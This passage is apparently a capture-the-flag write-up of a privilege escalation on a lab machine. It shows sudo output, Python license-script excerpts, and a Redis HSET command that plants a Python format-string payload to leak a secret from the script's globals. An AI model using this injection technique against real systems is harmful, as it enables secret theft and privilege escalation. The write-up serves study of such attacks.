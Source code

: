 ## Vertical Privilege Escalation

This user has sudo permission on `(root) /usr/bin/license`.

```
cooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
```

This program is a Python script, and everyone has read permission for this file. This program contains a secret that used to encrypt a license key.

```python
secret = [line.strip() for line in open("/root/license/secret")][0]
secret_encoded = secret.encode()
salt = b'microblogsalt123'
kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=salt,iterations=100000,backend=default_backend())
encryption_key = base64.urlsafe_b64encode(kdf.derive(secret_encoded))
```

There's a interesting part of the program that can be abuse to read this secret variable.

```python
class License():
    def __init__(self):
        chars = string.ascii_letters + string.digits + string.punctuation
        self.license = ''.join(random.choice(chars) for i in range(40))
        self.created = date.today()

...
l = License()
...

    prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```

This program accepts a Redis key that will be used to get the username,first-name, and last-name for creating the license key. Because I can control what the value is, I can use this format string `{license.__init__.__globals__[secret-encoded]}` to extract the secret value. Let's create a new Redis key with the format string as the username.

```
HSET gh0st username "{license.__init__.__globals__[secret_encoded]}" first-name first last-name last
```

